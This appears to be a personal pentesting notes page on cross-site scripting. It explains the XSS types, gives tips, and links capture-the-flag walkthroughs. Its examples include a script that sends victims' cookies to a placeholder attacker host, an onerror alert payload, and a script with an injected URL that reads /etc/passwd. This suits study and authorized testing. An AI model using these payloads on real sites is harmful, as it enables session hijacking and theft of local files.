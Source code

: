 
Cross Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious scripts into a legitimate website or web application, which can then be executed by unsuspecting users.  `XSS` is very similar to `HTML Injection` in practice. However, `XSS` involves the injection of `JavaScript` code to perform more advanced attacks on the client-side, instead of merely injecting HTML code. There are three main types of `XSS`:

|Type|Description|
|---|---|
|`Reflected XSS`|Occurs when user input is displayed on the page after processing (e.g., search result or error message).|
|`Stored XSS`|Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).|
|`DOM XSS`|Occurs when user input is directly shown in the browser and is written to an `HTML` DOM object (e.g., vulnerable username or page title).|

XSS attacks can be used to steal sensitive information, such as login credentials or personal data, from users who visit the compromised site. They can also be used to deface websites, redirect users to malicious sites, or perform other malicious activities.


# Guide

1. Remember it relies on an external user and therefor may be unreliable, this may take time or multiple login attempts.
2. The value which gets displayed and can be modified may be in a strange place, check the URL and request parameters.

# Notes

[[Edge Side Include (ESI)]] is a manor of XXS which can bypass many XXS filters if ESI is being used by the website.

# Walkthrough

1. [HTB: Holiday | 0xdf hacks stuff](https://0xdf.gitlab.io/2019/09/11/htb-holiday.html)
2. [HTB: Bankrobber | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/03/07/htb-bankrobber.html)

# Examples

## Stealing Cookies

```html
<html>
<body>
<script>
var r = new XMLHttpRequest();
r.open("GET", "http://KALI-IP/" + document.cookie);
r.send();
</script>
</body>
</html>
```

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

Sending this HTML to the website which will display it will steal the cookie from any user who views it.

## Running Code

[Local File Read via XSS in Dynamically Generated PDF](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html

```
<script>
	x=new XMLHttpRequest;
	x.onload=function(){
		document.write(this.responseText)
	};
	x.open("GET","file:///etc/passwd");
	x.send();
</script>
```

`https://xyz.com/payments/downloadStatements?Id=b9bc3d&utrnumber=<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>&date=2017-08-11&settlement_type=all&advice_id=undefined`